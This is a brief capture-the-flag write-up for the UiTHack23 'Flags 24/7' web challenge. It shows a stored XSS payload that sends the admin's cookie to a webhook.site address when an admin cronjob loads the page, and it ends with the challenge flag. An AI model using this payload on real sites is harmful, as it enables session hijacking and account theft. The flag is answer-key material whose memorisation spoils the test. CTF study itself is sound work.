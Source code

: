 #  Flags 24/7 
Bill gates approves this design

# Writeup

Initialize some type of server to catch requests. Due to university network restrictions we weere not able to send request between own subdomains, and had to use a public service.

[https://webhook.site/](https://webhook.site/)

Add xss script to the form data
```<img src=x onerror="this.src='https://webhook.site/3dfcb0ae-77ef-40f3-b844-154f74b62185/?'+document.cookie; this.removeAttribute('onerror');">```

Cronjob/admin is set to load the admin page every minute. The script is forced to do an `onError` as the src is faulty.  It triggers the script and will send a request with the cookie as parameter back to the address/server initialized.

`UiTHack23{xxspl0its_4r3_phun}`

